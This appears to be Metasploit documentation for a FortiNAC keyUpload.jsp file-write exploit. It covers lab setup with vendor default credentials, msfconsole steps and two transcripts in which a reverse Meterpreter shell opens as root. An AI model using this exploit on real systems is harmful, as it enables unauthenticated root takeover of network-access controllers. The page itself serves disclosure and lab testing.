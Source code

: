 ## Vulnerable Application

This module uploads a payload to the `/tmp` directory in addition to a cron job to `/etc/cron.d` which executes the payload
in the context of the `root` user.

The core vulnerability is an arbitrary file write issue in `/configWizard/keyUpload.jsp` which is accessible remotely and without
authentication. When you send this endpoint a ZIP file, it will extract an an attacker controlled file to directory
on the system of the attacker's choice.

This issue is exploitable on the following versions of FortiNAC:

- FortiNAC version 9.4 prior to 9.4.1
- FortiNAC version 9.2 prior to 9.2.6
- FortiNAC version 9.1 prior to 9.1.8
- FortiNAC 8.8 all versions
- FortiNAC 8.7 all versions
- FortiNAC 8.6 all versions
- FortiNAC 8.5 all versions
- FortiNAC 8.3 all versions

### Setup

Navigate to https://www.fortinet.com/demo-center/nac-demo to obtain a FortiNAC free product demo. Fill out the
necessary fields in order to download: first name, last name, job function, job level, company, email address, phone
number, state, zip/postal code. You'll receive a confirmation email; click the link in the email in order to access the
free product download.

Import the OVA file into your virtualization software of choice. Personally, I had success using VMWare Fusion. Note
that when using VMWare products, you will need to use a tool such as 7-Zip to unzip the `.ova` file, find the manifest
file contained within, which will end with `.mf`, and then rezip the file again. This is due to a bug noted at
https://github.com/home-assistant/operating-system/issues/2121

Personally I just navigated to the `.ova` file in Windows, right clicked, and chose `7-Zip`, then `Open Archive`,
and then deleted the `.mf` file that appeared before closing 7-Zip, which did the trick. Once this is done you
can then import the OVA file into VMWare fine.

Once the OVA file has been imported, but before starting the machine, if you are using VMWare, go into
`Edit->Virtual Network Editor` and look at the `Subnet Address` section for the `Host Only` adapter. You will
need this for later sections.

Next change the two interfaces of the imported machine from Bridged to Host Only. Then turn the machine on.
Once the machine turns on, log in with the following default credentials as outlined in the
[VMware Virtual Machine Installation Guide](https://fortinetweb.s3.amazonaws.com/docs.fortinet.com/v2/attachments/920a0000-200d-11e9-b6f6-f8bc1258b856/fortinac-vmware-install-85.pdf):

```
Username: root
Password: 162PemBnI
```

Once authenticated successfully, statically set the IP address of the machine using the subnet information you obtained
earlier. In our case the subnet was `192.168.123.0/24` so we just set the gateway to `192.168.123.1` and set the IP address
of the machine to `192.168.123.11/24` to set it to a static IP address that is available on this subnet. Be sure to update
these commands and any of the following commands to replace `192.168.123.11` and `192.168.123.1` with the appropriate
gateway and host IP addresses.

`configIP 192.168.123.11 255.255.255.0 192.168.123.1`

Navigate to the directory where the license file resides, and then start a Python SimpleHTTPServer web server to
host files from this directory using the following commands:

```
cd /bsc/campusMgr
python -m SimpleHTTPServer 9099
```

On your local machine download the license file from the Python server started above:

`wget -O licenseKey http://192.168.123.11:9099/.licenseKey`

On your local machine, open the browser of your choice and navigate to:

`https://192.168.123.11:8443/gui`

Authenticate with the default username and password:

```
Username: root
Password: YAMS
```

When installing the software, first accept the license agreement. Then upload the license key, providing the
the `.licenseKey` file you downloaded from the Python HTTP server and click `Next`. Under `Change Default Passwords`,
set a username and password for a new admin account that can log in via the GUI, and under `CLI Accounts` set a new
password for the `root` user to log in via the CLI of the console.

Under the `Select Installation Method` section, select `Manual Installation` and click `OK`. You should be redirected to
a URL that looks like `https://192.168.116.12:8443/gui/system/config-wizard` and be prompted to provide a license key.
Just provide the same `.licenseKey` file you downloaded, same procedure and key as you provided earlier and click `OK`.

At this point you should see a page with a header named `BASIC NETWORK`. Set the `Host Name (Do not include domain)`
field to `localhost` and then under `DNS` section, set the `Domain [example: yourdomain.com]` to `localhost.localdomain`.
Finally set the `Network Type` to `None`. This is a not a hard requirement but it will save you a lot of
unnecessary setup. Click `Next` and then `Apply` and click `OK` on the popup that appears.

Once this is done, you will be required to change the default passwords from the GUI and once complete,
restart the machine by clicking on the `Restart` button. One the machine reboots, you should have a
vulnerable instance of FortiNAC configured.

## Options

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/multi/http/fortinac_keyupload_file_upload`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### FortiNAC 9.4.0 CMD Target

```
msf > use exploit/linux/http/fortinac_keyupload_file_write
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/fortinac_keyupload_file_write) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf exploit(linux/http/fortinac_keyupload_file_write) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf exploit(linux/http/fortinac_keyupload_file_write) > set lport 4044
lport => 4044
msf exploit(linux/http/fortinac_keyupload_file_write) > run

[*] Started reverse TCP handler on 192.168.123.1:4044
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target indicated a successful upload occurred!
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (24772 bytes) to 192.168.123.11
[*] Meterpreter session 1 opened (192.168.123.1:4044 -> 192.168.123.11:59938) at 2023-03-09 17:01:02 -0500
[!] This exploit may require manual cleanup of '/etc/cron.d/ZlzEXbWF' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : localhost.localhost.localdomain
OS              : Linux 3.10.0-1160.53.1.el7.x86_64 #1 SMP Fri Jan 14 13:59:45 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```

### FortiNAC 9.4.0 Linux x64 Target
```
msf > use exploit/linux/http/fortinac_keyupload_file_write
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/fortinac_keyupload_file_write) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   CMD
    1   Linux x86
    2   Linux x64


msf exploit(linux/http/fortinac_keyupload_file_write) > set target 2
target => 2
msf exploit(linux/http/fortinac_keyupload_file_write) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/fortinac_keyupload_file_write) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf exploit(linux/http/fortinac_keyupload_file_write) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf exploit(linux/http/fortinac_keyupload_file_write) > set lport 9909
lport => 9909
msf exploit(linux/http/fortinac_keyupload_file_write) > run

[*] Started reverse TCP handler on 192.168.123.1:9909
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target indicated a successful upload occurred!
[*] Sending zipped payload to /configWizard/keyUpload.jsp
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (3045348 bytes) to 192.168.123.11
[*] Meterpreter session 3 opened (192.168.123.1:9909 -> 192.168.123.11:38266) at 2023-03-09 17:31:01 -0500
[!] This exploit may require manual cleanup of '/tmp/HcYciseH' on the target
[!] This exploit may require manual cleanup of '/etc/cron.d/DsxejZgV' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.53.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

